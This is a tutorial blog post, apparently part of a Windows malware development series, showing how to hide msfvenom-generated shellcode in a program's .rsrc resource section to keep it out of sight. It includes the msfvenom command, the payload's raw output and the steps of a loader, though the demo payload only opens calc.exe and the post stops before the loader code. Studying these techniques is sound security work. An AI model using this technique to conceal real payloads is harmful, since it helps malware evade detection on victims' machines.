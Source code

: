 ```yaml
---
title: "Windows Malware Development Part 4: Payload Placement Basics - .rsrc"
header:
  teaser: /assets/images/pe.png
  teaser_home_page: true
categories:
  - Malware Dev
classes: wide
tags:
  - Malware
toc: true
toc_label: Contents
---
```

## Objective ##

Hey guys, welcome to the fourth part of Windows Malware Development, in which we will be looking at the final part of the basics of payload placement. In this post, we will be looking at how to place our shellcode in the `.rsrc` section.

## .rsrc Section ##

If you recall from the PE file structure post, the `.rsrc` section contains any resources that our program needs to load in order to function. From a Malware development perspective however, we can use this section our advantage. Our shellcode will now be hidden in the resources section of our program, away from plain sight.

>You will need Visual Studio/Visual studio build tools, x64dbg and Metasploit (comes with a build of Kali Linux) for this exercise.
>
>For this post, I will be using the Visual Studio GUI for the purposes of simplicity, since its easier to create and add a resource using the GUI. However, it is still possible without it.

We will be changing our shellcode in this post to actually execute something, and in the process learn how to use the Metasploit Framework in order to generate shellcode.

## Creating the Shellcode and Resource File ##

### Generating Shellcode using the Metasploit Framework ###

Readers who come from a penetration testing and red teaming background would know that the Metasploit Framework offers many tools that aid with these tasks. One of those tools is `msfvenom`, which is a console tool that can be used to generate different types of payloads and shellcode.

We will be using `msfvenom` in order to generate shellcode that launches `calc.exe` (The Windows Calculator) using `CMD`.

```sh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p windows/x64/exec CMD=calc.exe > pay.ico 
```

- `-p windows/x64/exec`: This is the payload type. There are many types of payloads, for example, if you want to generate a reverse shell shellcode you will be using a different payload type. In this case, we are using a command execution payload type.
- `CMD= calc.exe`: The command that we wish to execute, which in this case, is `calc.exe`.
- `> pay.ico`: The output file containing our shellcode. You can use any acceptable resource file extension, but in this case we will be using the `.ico` (ICON file) extension.

If we try to view our file, it will appear to be a bunch of binary data, however, we can see the word `calc.exe`:

```
┌──(kali㉿kali)-[~]
└─$ cat '/home/kali/Desktop/pay.ico'       
A�8�u�LLE9�u�XD�@$I�fA�H�P�H▒D�@ I��VH��A�4�H�M1�H1��A��
                       HD�@I�A��H�AXAX^YZAXAYAZH�� AR��XAYZH��W���]H�H��A�1�o��ջ���VA�������H��(<|
���u�GrojYA����calc.exe 
```

### Adding the File as a Resource ###

Now that our shellcode file is ready, let's add it as a resource for our program. 

- Start by creating a blank C++ project in Visual Studio. 
- In the solution explorer pane (right-hand side of the screen), right-click on the Resource Files icon, and select Add > New Item and view all the templates.
- Select Resource from the left pane and add a Resource File (.rc). Leave the name as is.
- You will see a new pane labeled Resource View open in place of the solution explorer. Right-click on the Resource.rc icon and click on Add Resource.
- In the new window, click on Import, and import your `.ico` shellcode file.
- Enter `RCDATA` as the Resource Type and click OK.

![RCDATA](/assets/images/rcdata.png)

- You will now see your resource displayed as binary data.

Navigate back to the solution explorer pane and have a look at the `resource.h` header file. The `#define` statement that you see is your payload's ID in the `.rsrc` section (in this case, `IDR_RCDATA1`), and will be needed later when we're loading it,

```cpp
//{{NO_DEPENDENCIES}}
// Microsoft Visual C++ generated include file.
// Used by Resource.rc
//
#define IDR_RCDATA1                     101

// Next default values for new objects
// 
#ifdef APSTUDIO_INVOKED
#ifndef APSTUDIO_READONLY_SYMBOLS
#define _APS_NEXT_RESOURCE_VALUE        102
#define _APS_NEXT_COMMAND_VALUE         40001
#define _APS_NEXT_CONTROL_VALUE         1001
#define _APS_NEXT_SYMED_VALUE           101
#endif
#endif
```

## Writing the program ##

Start off by adding a C++ file to you project (if not done already). Let's start writing the program. The flow would go as follows:

- Fetch resource location.
- Fetch a handle to the global memory block (`hGlobal`).
- Get the address of our shellcode in the `.rsrc` section.
- Get the size of our shellcode.
- Copy to an executable memory buffer.
- Execute it.

### Fetching the location of our resource ###

We will be using the `FindResourceW` API for this operation. Taking a look at the documentation, we can see that it takes three parameters:

```cpp
HRSRC FindResourceW(
  [in, optional] HMODULE hModule,
  [in]           LPCWSTR lpName,
  [in]           LPCWSTR lpType
);
```

